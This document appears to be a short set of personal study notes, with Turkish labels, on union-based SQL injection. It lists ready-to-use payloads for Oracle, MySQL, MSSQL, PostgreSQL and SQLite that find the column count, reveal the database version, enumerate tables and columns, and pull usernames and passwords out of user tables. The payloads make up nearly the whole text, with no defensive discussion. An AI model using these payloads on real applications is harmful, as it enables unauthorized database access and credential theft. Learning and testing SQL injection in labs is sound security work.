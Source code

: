 # Union-Based SQL Injection (Birlik Tabanlı SQL Enjeksiyonu)

### Tanım
- SELECT * FROM products WHERE category = 'Gifts' ...

- ==> +UNION+SELECT+NULL,NULL,NULL-- ==> ' order by 3-- --> ok

-------------------------------------

### UNION (Oracle)
- ' ORDER BY 1--
- ' UNION SELECT 'abc', 'def' FROM dual-- ==> ' order by 2-- --> ok
- ' UNION SELECT BANNER, NULL FROM v$version-- ==> versiyon öğrenme
- '+UNION+SELECT+table_name,NULL+FROM+all_tables-- 
    - ==> USERS_ABCDEF
- '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'-- 
    - ==> USERNAME_ABCDEF PASSWORD_ABCDEF
- '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--

### UNION (MySQL, MSSQL (Microsoft SQL Server), PostgreSQL, SQLite)
- ' ORDER BY 1--
- ==> ' UNION SELECT 'abc', 'def'#
- ==> ' UNION SELECT @@version, NULL#
- ==> '+UNION+SELECT+'abc','def'--
- ==> '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
- ==> '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
- ==> '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--

-------------------------------------

- ==> ' UNION SELECT table_name, NULL FROM all_tables--
- ==> '+UNION+SELECT+NULL,NULL,NULL--
- ==> '+UNION+SELECT+'abc','def'--
- ==> ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS'--
- ==> ' UNION SELECT username, password FROM users--
- ==> ' UNION SELECT NULL, username || '~' || password FROM users--
